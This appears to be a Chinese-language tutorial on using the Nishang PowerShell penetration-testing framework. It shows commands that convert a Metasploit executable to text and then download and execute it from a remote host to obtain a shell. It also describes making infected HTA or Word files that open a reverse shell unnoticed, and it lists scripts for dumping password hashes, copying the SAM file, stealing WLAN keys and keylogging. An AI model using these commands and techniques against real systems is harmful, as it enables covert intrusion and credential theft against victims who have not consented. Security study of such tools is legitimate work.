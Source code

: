 常用Execution

一、Download_Execute

Download_Execute是Nishang中一个下载执行脚本，它在实战中最常用的功能就是下载一个文本文件，然后将其转换为可执行文件执行。

使用实例：

第一步：首先我们需要使用Nishang中的exetotext.ps1脚本将可执行文件更改为文本文件。

12PS C:\Users\root> ExetoText c:\powershell\msf.exe c:\powershell\msf.txtConverted file written to c:\powershell\msf.txt

第二步：使用Download_Execute下载执行文本文件

1PS C:\Users\root> Download_Execute http://192.168.110.128/msf.txt

第三步：观察Metasploit。可以发现成功获得Shell

![](http://p1.pstatp.com/large/106b00057137e0f45f92)

客户端

Nishang中还有生成各种危害文件的脚本，它们可以生成各种感染的文件，如HTA、Word，来执行powershell脚本。可以神不知鬼不觉的发动攻击，由于各个脚本用法相同，这里以生成受感染的HTA为例子。

Out-HTA

功能：创建受感染的HTA文件，可以执行PowerShell命令和脚本。

用法实例：

第一步：我们先来创建受感染的HTA文件。在下图中我们可以发现成功生成了一个受感染的HTA文件hello.hta

![](http://p1.pstatp.com/large/11100005c242ac67d591)

第二步：先使用nc来监听端口，然后运行受感染的HTA文件，可以发现成功反弹Shell

![](http://p3.pstatp.com/large/110f00052dbc05117928)

其他

Nishang中还有很多经典实用的渗透脚本，不可能一一为大家讲解，这里挑选几种常用的为大家来介绍一下。

项目地址：https://github.com/samratashok/nishang

信息收集

1. Check-VM 这是Nishang中检测目标机是否为虚拟机的脚本。

![](http://p1.pstatp.com/large/110f00052dbe2705913f)

2. Copy-VSS 使用卷影拷贝服务来复制SAM文件。

3. Get-Information 从目标机上获取有价值信息的脚本

4. Get-PassHashes 从目标机上获取Hash密码的脚本。

5. Get-WLAN-Keys 从目标机上获取纯文本的WLAN密钥。

6. Keylogger 键盘记录脚本，大家应该都熟悉。
